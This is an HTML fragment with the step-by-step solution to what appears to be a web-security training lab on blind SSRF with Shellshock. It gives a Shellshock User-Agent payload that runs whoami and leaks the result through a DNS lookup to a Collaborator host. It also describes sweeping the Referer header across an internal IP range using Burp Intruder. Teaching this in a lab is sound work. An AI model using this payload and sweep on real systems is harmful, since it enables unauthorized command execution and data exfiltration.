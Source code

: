 <div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        In Burp Suite Professional, install the "Collaborator Everywhere" extension from the BApp Store.
                    </li>
                    <li>
                        Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
                    </li>
                    <li>
                        Browse the site.
                    </li>
                    <li>
                        Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
                    </li>
                    <li>
                        Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
                    </li>
                    <li>
                        Send the request to the product page to Burp Intruder.
                    </li>
                    <li>
                        <p>
                            Use Burp Collaborator client to generate a unique Burp Collaborator payload, and place this into the following Shellshock payload:
                        </p>
                        <code class="code-scrollable">() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN</code>
                    </li>
                    <li>
                        Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
                    </li>
                    <li>
                        Click "Clear §", change the Referer header to <code>http://192.168.0.1:8080</code> then highlight the final octet of the IP address (the number <code>1</code>), click "Add §".
                    </li>
                    <li>
                        Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
                    </li>
                    <li>
                        Click "Start attack".
                    </li>
                    <li>
                        When the attack is finished, go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack. The name of the OS user should appear within the DNS subdomain.
                    </li>
                    <li>
                        To complete the lab, enter the name of the OS user.
                    </li>
                </ol>
            </div>
        </div>
